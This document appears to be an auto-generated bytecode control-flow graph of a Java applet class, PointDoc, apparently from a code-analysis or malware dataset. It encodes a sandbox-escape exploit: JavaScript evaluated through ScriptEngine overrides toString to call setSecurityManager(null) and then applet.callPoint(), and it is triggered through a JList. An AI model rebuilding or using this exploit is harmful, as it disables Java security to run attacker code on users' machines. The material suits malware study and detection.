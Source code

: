 digraph "" {
    "r0 := @this: PointDoc"
    "load.r r0"
    "r0 := @this: PointDoc"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "dup1.r"
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"js\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"js\"";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "push \"js\""->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"
    "dup1.r"->"interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0";
    "store.r r1"
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "push \"applet\""
    "load.r r1"->"push \"applet\"";
    "push \"applet\""->"load.r r0";
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"
    "load.r r0"->"interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2";
    "pop"
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"->"pop";
    "push \"this.toString = function() {\tjava.lang.System.setSecurityManager(null);\tapplet.callPoint();\treturn String.fromCharCode(97 + Math.round(Math.random() * 25));};e = new Error();e.message = this;e\""
    "pop"->"push \"this.toString = function() {\tjava.lang.System.setSecurityManager(null);\tapplet.callPoint();\treturn String.fromCharCode(97 + Math.round(Math.random() * 25));};e = new Error();e.message = this;e\"";
    "push \"this.toString = function() {\tjava.lang.System.setSecurityManager(null);\tapplet.callPoint();\treturn String.fromCharCode(97 + Math.round(Math.random() * 25));};e = new Error();e.message = this;e\""->"load.r r1";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"
    "load.r r1"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "virtualinvoke <PointDoc: java.awt.Component add(java.awt.Component)>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"virtualinvoke <PointDoc: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <PointDoc: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <PointDoc: java.awt.Component add(java.awt.Component)>"->"store.r r0";
}
